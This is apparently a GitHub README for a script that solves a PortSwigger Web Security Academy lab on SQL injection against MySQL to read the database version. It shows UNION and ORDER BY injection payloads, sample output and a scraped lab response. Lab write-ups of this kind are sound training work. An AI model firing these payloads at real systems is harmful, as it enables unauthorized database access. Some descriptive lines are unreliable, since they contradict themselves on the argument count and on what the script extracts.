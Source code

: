 # 🔐 SQL injection attack, querying the database type and version on MySQL and Microsoft

This script is designed to test for basic SQL injection vulnerabilities in labs from PortSwigger's Web Security Academy Lab: [SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft). It targets endpoints like `/filter?category=` and checks whether a given payload successfully bypasses input validation.

---

## 🚀 How It Works

The script performs the following steps:

1. **Disables SSL warnings** to avoid certificate issues with lab URLs.
2. **Sets up a proxy** (default: `127.0.0.1:8080`) for interception via tools like Burp Suite.
3. **Accepts two arguments**:
   - `url`: The base URL of the lab.
   - `table`: Name of a separate table that needs be used during UNION SQL Injection.
   - `columns`: A list of columns can be passed by the user separated by space.
4. **Constructs the full request URL** by appending the payload to `/filter?category=`.
5. **Sends the request** and use beautiful soup library to fetch the password for administrator
6. **Prints the result** indicating whether the injection was successful.

---

## 🧪 Sample Usage

```bash
python3 unionRetrieveDbVersionMySql.py https://0a9b005f034364a680c809eb00760096.web-security-academy.net
```

### ✅ Sample Output

```
((+) Targeting: https://0a9b005f034364a680c809eb00760096.web-security-academy.net
(+) Determining number of columns using ORDER BY...

    ➤ Testing payload: ' ORDER BY 1 #
    ➤ Testing payload: ' ORDER BY 2 #
    ➤ Testing payload: ' ORDER BY 3 #

(✓) Found error at column 3, so total columns = 2

(+) Testing which of 2 columns accepts string data...

    ➤ Testing payload: ' UNION SELECT 'test123',null#

(✓) Column 1 accepts string data.

(+) Attempting to extract Version of DB...

    ➤ Final payload: ' UNION SELECT null, @@version#
```

---

## 📌 Lab-Specific Note

For this particular lab, the script checks whether the response contains the administrator password in a particular html tag using web scraping to determine success. You can modify this logic in the code to match other labs or contexts.

---

## 📦 Requirements

Install dependencies using:

```bash
pip install -r requirements.txt
```

---

## 📦 Walkthrough of the code
[Code Walkthrough](https://medium.com/@adhithyasivanesh/portswigger-web-security-academy-labs-sqli-lab-1-retrieving-hidden-data-fe40ea356d5d)

## Sample HTML response which was scrapped

```HTML
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=KNJIvvgN1b5lQyso7StEu2cPFa1o0pQt; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 4116

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection attack, querying the database type and version on MySQL and Microsoft</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>SQL injection attack, querying the database type and version on MySQL and Microsoft</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <p id="hint">Make the database retrieve the string: '8.0.42-0ubuntu0.20.04.1'</p>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        <img src="/resources/images/shop.svg">
                    </section>
                    <section class="ecoms-pageheader">
                        <h1>Gifts&apos; UNION SELECT null, @@version#</h1>
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a class="filter-category" href="/">All</a>
                        <a class="filter-category" href="/filter?category=Accessories">Accessories</a>
                        <a class="filter-category" href="/filter?category=Clothing%2c+shoes+and+accessories">Clothing, shoes and accessories</a>
                        <a class="filter-category" href="/filter?category=Corporate+gifts">Corporate gifts</a>
                        <a class="filter-category" href="/filter?category=Lifestyle">Lifestyle</a>
                        <a class="filter-category" href="/filter?category=Toys+%26+Games">Toys & Games</a>
                    </section>
                    <table class="is-table-longdescription">
                        <tbody>
                        <tr>
                            <td>8.0.42-0ubuntu0.20.04.1</td>
                        </tr>
                        </tbody>
                    </table>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```